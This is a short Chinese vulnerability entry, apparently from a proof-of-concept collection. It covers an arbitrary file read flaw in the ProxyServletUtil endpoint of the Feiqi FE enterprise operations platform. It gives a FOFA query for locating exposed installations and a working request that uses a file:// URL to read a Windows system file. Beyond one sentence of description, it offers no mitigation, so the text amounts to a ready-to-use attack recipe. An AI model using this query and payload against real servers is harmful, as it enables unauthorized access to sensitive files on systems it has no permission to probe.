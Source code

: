 ## 飞企互联-FE企业运营管理平台ProxyServletUti存在任意文件读取漏洞

飞企互联FE业务协作平台中的ProxyServletUti接口存在任意文件读取漏洞。攻击者可以通过构造特定请求，读取服务器上的敏感文件。



## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
/ProxyServletUtil?url=file:///c:/Windows/win.ini
```

